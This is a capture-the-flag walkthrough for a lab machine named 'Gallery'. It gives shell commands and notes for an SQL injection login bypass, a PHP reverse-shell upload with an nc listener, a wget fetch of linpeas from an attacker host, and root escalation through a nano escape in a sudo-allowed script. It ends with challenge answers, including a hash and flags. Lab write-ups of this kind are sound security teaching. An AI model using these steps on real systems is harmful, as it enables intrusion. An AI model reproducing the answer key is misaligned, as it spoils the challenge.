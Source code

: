 # Gallery - Easy

```shell
sudo vim /etc/hosts
#add gallery.thm

nmap -T4 -p- -A -Pn -v gallery.thm

#bypass using SQLi
#upload php shell to Albums page

nc -nvlp 4444
#we get reverse shell

python3 -c 'import pty;pty.spawn("/bin/bash")'

export TERM=xterm
#press Ctrl+Z
stty raw -echo; fg
#press Enter key twice

id
#www-data

#check directories /var/www, /opt, /home

cd /tmp

#in attacker machine
python3 -m http.server

#in victim machine
wget http://10.10.141.114:8000/linpeas.sh

chmod +x linpeas.sh

./linpeas.sh
#gives cleartext password

su mike
#use password

cd

#get user flag

sudo -l
#we can run script rootkit.sh as root

cat /opt/rootkit.sh
#uses rkhunter and nano

#gtfobins exploit for nano

sudo /bin/bash /opt/rootkit.sh
#give input 'read'
#in nano editor
#Ctrl+R, Ctrl+X
reset; sh 1>&0 2>&0

#we have shell as root
id

cat /root/root.txt

which mysql

mysql -u root
#MariaDB
#get admin hash

show databases;

use gallery_db;

show tables;

select * from users;
#get admin hash
```

* Open ports & services:

  * 80 - http - Apache httpd 2.4.29 (Ubuntu)
  * 8080 - http - Apache httpd 2.4.29 (Ubuntu)

* The webpage on port 80 is the default landing page for Apache on Ubuntu; we can leave it for now.

* Checking the webpage on port 8080, we have a login portal for 'Simple Image Gallery System'.

* As we do not have any clues regarding username/password, we can begin by trying injection to bypass login.

* With the help of the payload ```admin' OR 1=1#```, we are able to bypass login.

* Now, for this 'Simple Image Gallery' CMS, we have an upload functionality in Albums.

* We can first try uploading 'reverse-shell.php' file - surprisingly it works.

* We can activate reverse shell by setting up listener and clicking on the uploaded PHP shell.

* We have reverse shell as 'www-data'; we can stabilize it now.

* Checking the /home directory shows that there is a user 'mike' - we need to find some way for privesc to mike.

* Using ```linpeas``` shows the history files; this includes a cleartext password.

* We are able to switch to user 'mike' using this password and get user flag.

* Now, ```sudo -l``` shows that we can run a 'rootkit.sh' script as root.

* This script allows the user to versioncheck, update, list or read a report.

* The script uses the tools ```rkhunter``` and ```nano```.

* To use ```nano```, we have to give the input 'read' after running the script.

* Now, we have exploits on GTFObins for ```nano``` - we can use the exploit to get shell as root.

* Running the exploit gives us root shell; we can read root flag.

* To get the admin hash, we can run ```mysql``` as root - the hash is stored in the ```MariaDB``` database 'gallery_db'.

```markdown
1. How many ports are open? - 2

2. What's the name of the CMS? - Simple Image Gallery

3. What's the hash password of the admin user? - a228b12a08b6527e7978cbe5d914531c

4. What's the user flag? - THM{af05cd30bfed67849befd546ef}

5. What's the root flag? - THM{ba87e0dfe5903adfa6b8b450ad7567bafde87}
```

